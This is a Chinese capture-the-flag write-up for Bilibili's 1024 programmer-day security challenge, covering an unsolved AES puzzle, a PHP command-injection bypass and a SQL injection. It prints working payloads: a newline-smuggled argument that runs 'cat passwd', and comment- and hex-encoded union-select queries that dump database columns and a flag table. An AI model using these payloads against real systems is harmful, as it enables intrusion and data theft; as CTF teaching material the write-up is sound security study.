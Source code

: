 ﻿---
title: B站1024程序员节
categories: 赛题wp
---
# 1024程序员节，大家一起和2233参与解密游戏吧
happy_1024_2233:

>e9ca6f21583a1533d3ff4fd47ddc463c6a1c7d2cf084d364
0408abca7deabb96a58f50471171b60e02b1a8dbd32db156

听说是`aes解密` 密钥是happy_1024_2233 没写出来

<!--more-->

# 某高级前端开发攻城狮更改了一个前端配置项
https://security.bilibili.com/sec1024/q/

f12发现

![](https://img-blog.csdnimg.cn/c70e801419db4ffebef5f89692d37ecc.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
# php

```php
<?php
    /* 
        bilibili- ( ゜- ゜)つロ 乾杯~
        uat: http://192.168.3.2/uat/eval.php
        pro: http://security.bilibili.com/sec1024/q/pro/eval.php
    */
	
	highlight_file(__FILE__);
    $args = @$_GET['args'];
    if (count($args) >3) {
        exit("fail--1");
    }
	var_dump($args);
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) ) {
            exit("faile--2");
        }
    }
    // todo: other filter
    $cmd = "/bin/2233 " . implode(" ", $args);
	
    exec($cmd, $out);
    for ($i=0; $i<count($out); $i++){
        echo($out[$i]);
        echo('<br>');
    }
?>
```

`/^\w+$/`可以换行然后拼接命令，这样的话，最后执行的命令我们就可控了，如图

![](https://img-blog.csdnimg.cn/f0a28ebf87864113b0fa32f5ad3aa10c.png#pic_center)
![](https://img-blog.csdnimg.cn/dcd71c1054724dd3990eefcb1d33fb58.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

Payload:
```
?args[0]=1%0a&args[1]=cat&args[2]=passwd
```

# SQL
日志信息处有两个查询框

![](https://img-blog.csdnimg.cn/568026eadf774188bc27ad2c39fcd767.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
可能存在注入
发现错误返回406 正确返回200

![](https://img-blog.csdnimg.cn/2ad395ff141c4125923007e216de8020.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
测回显的地方：

![](https://img-blog.csdnimg.cn/5c562953239d4f299cec9e87280d39eb.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
整型注入还都有回显

过滤了引号，十六进制绕过
```
0/**/union/**/select/**/9,8,7,6,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name=0x666c6167

0/**/union/**/select/**/database(),user(),3,4,id/**/from/**/flag
```
